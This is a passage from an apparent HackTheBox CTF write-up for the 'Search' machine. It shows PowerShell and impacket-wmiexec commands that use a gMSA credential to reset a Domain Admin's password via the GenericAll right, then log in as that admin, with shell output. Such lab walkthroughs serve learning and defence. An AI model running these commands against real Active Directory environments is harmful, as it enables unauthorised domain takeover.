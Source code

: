 **Now, we can use [`PSCredential`](https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8) to execute PowerShell commands as gMSA:**
```powershell
$credential = New-Object System.Management.Automation.PSCredential($gmsa.name, $secureCurrentPassword)
Invoke-Command -ComputerName 127.0.0.1 -Credential $credential -ScriptBlock {whoami}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Search/images/Pasted%20image%2020230727190520.png)

**Then, we can reset Domain Admin `Tristan.Davies`'s password because of the `GenericAll` right!**

> Note: `GenericAll` right means full rights to the object (add users to a group or reset user's password).

```powershell
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity Tristan.Davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'FinallyPwnedThisAD!!GG' -force)} -Credential $credential
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Search/images/Pasted%20image%2020230727191202.png)

**Finally, we can use `wmiexec` or other tools to login as the Domain Admin with our new password:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|18:25:57(HKT)]
└> impacket-wmiexec research.search.htb/Tristan.Davies:'FinallyPwnedThisAD!!GG'@search.htb 
[...]
C:\>whoami
search\tristan.davies

C:\>ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Research
   Primary Dns Suffix  . . . . . . . : search.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : search.htb
                                       htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-EB-D4
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::ce(Preferred) 
   Lease Obtained. . . . . . . . . . : 27 July 2023 06:03:44
   Lease Expires . . . . . . . . . . : 27 July 2023 13:03:44
   IPv6 Address. . . . . . . . . . . : dead:beef::79e7:5550:1492:3709(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::79e7:5550:1492:3709%6(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.11.129(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:6ca8%6
                                       10.10.10.2
[...]
C:\>whoami /groups

GROUP INFORMATION
-----------------

```